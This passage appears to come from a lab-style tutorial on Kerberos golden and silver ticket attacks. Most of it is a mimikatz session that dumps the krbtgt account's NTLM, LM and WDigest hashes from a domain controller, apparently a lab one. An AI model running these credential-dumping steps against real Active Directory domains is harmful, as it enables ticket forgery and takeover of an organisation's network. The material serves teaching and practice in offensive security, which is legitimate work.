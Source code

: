 2.) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.

![](https://i.imgur.com/BSh4rXy.png)

This attack will not work without other machines on the domain however I challenge you to configure this on your own network and try out these attacks.

```
C:\Users\Administrator>cd downloads && mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6

 * WDigest
    01  d2e9aa3caa4509c3f11521c70539e4ad
    02  c9a868fc195308b03d72daa4a5a4ee47
    03  171e066e448391c934d0681986f09ff4
    04  d2e9aa3caa4509c3f11521c70539e4ad
    05  c9a868fc195308b03d72daa4a5a4ee47
    06  41903264777c4392345816b7ecbf0885
    07  d2e9aa3caa4509c3f11521c70539e4ad
    08  9a01474aa116953e6db452bb5cd7dc49
    09  a8e9a6a41c9a6bf658094206b51a4ead
    10  8720ff9de506f647ad30f6967b8fe61e
    11  841061e45fdc428e3f10f69ec46a9c6d
    12  a8e9a6a41c9a6bf658094206b51a4ead
    13  89d0db1c4f5d63ef4bacca5369f79a55
    14  841061e45fdc428e3f10f69ec46a9c6d
    15  a02ffdef87fc2a3969554c3f5465042a
    16  4ce3ef8eb619a101919eee6cc0f22060
    17  a7c3387ac2f0d6c6a37ee34aecf8e47e
    18  085f371533fc3860fdbf0c44148ae730
    19  265525114c2c3581340ddb00e018683b
    20  f5708f35889eee51a5fa0fb4ef337a9b
    21  bffaf3c4eba18fd4c845965b64fca8e2
    22  bffaf3c4eba18fd4c845965b64fca8e2
    23  3c10f0ae74f162c4b81bf2a463a344aa
    24  96141c5119871bfb2a29c7ea7f0facef
    25  f9e06fa832311bd00a07323980819074
    26  99d1dd6629056af22d1aea639398825b
```